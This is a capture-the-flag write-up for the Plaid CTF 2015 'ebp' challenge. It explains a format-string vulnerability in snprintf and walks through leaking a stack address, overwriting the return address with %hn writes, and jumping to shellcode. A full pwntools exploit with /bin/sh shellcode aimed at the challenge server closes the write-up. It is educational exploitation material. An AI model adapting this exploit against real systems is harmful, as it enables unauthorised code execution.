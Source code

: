 #Plaid CTF 2015 Writeup:
##### Pwnable: 160 points 
##### Name: ebp
##### Description:
*nc 52.6.64.173 4545* 

*Download: %p%o%o%p.*

Running file on ebp:
>```bash
> $ file ebp
> ebp: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

A 32 binary and it seems like the NX flag is disabled which means we can execute shellcode

Analyzing the assembly the vulnerbility lies within the code for *make_response*:
>```assembly
>gdb-peda$ disas make_response
>Dump of assembler code for function make_response:
>   0x080484fd <+0>:	push   ebp
>   0x080484fe <+1>:	mov    ebp,esp
>   0x08048500 <+3>:	sub    esp,0x18
>   0x08048503 <+6>:	mov    DWORD PTR [esp+0x8],0x804a080
>   0x0804850b <+14>:	mov    DWORD PTR [esp+0x4],0x400
>   0x08048513 <+22>:	mov    DWORD PTR [esp],0x804a480
>   0x0804851a <+29>:	call   0x80483f0 <snprintf@plt>
>   0x0804851f <+34>:	leave  
>   0x08048520 <+35>:	ret    
>End of assembler dump.
>```

The C code for that looks something like this:
>```C
> char input[1024];  //&input is 0x804a080
> char output[1024]; //&output is 0x804a480
> int make_response(){
>   return snprintf(output,0x400,input);
>}
>```

where input and output are global variables

So it seems that this is a case of a format string vulnerbility. 

Which makes sense since the description hints at %p %o %o %p

To be safe we assume there is aslr enabled on the server. We also need to utilize the format string to gain an arbitrary write and gain control flow of the program.

#####1. ASLR
  A way to defeat aslr is to use the format string vulnerbility to leak an address of the stack out to us.
  We can do so by using the *%p* format 
  
#####2. Control flow
  Since a format string vulnerbility also gives us the ability to write to the stack with the *%n* format we can utilize this to write to an address on the stack. If the buffers where our input was stored on the stack we can simply wrap around the stack into our buffers and use our input as addresses, however since our buffers are global buffers they are instead stored on the bss segment of the program.
  
  To remedy this we first use part 1 and leak out a stack address, then we use a saved frame pointer (ebp) to write to somewhere lower on the stack. What we want on the stack is something that we actually want to write to, the *return address* location. We use the %hn to write the size of a short to the stack which maintains the integrity of the 4 most significant, this works because we know the return address is also on the stack with the ebp.
>```python
>r.send('%4$p\n') 
>
>addr = int(r.recv(0xa),16)+(OFFSET) #offset is the offset to the return address
>log.info('stack: %x'%addr)
>addr = addr&0xFFFF #we take only last 4 bytes so that we can make use the %hn format
>
>r.send('%.{0!s}u%4$hn\n'.format(addr)) ##write those bytes
>```
So now we have a pointer to the location of the return address, so we simply need to wrap around to that pointer and write to it. So we wrap around to our written address and change the return address, and have it point to our buffer in the bss.
Also we know that on our text segment and bss segment starts with 0x0804 which is why we can have it pivot to the buffer by writing only the size of a *short*.
>>>```python
>lower = bufaddr&0xffff
>r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')
>```

Putting it together:

__Note:__ I used pwntools for this exploit but should be simple enough to convert to a regular python exploit
```python
from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)

bufaddr = 0x804a080
OFFSET = 4 ##Offset to the return address

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') 

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF 

r.send('%.{0!s}u%4$hn\n'.format(addr))
lower = bufaddr&0xffff
r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')

r.interactive()
```
flag is *who_needs_stack_control_anyway?*
> more information about format strings: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
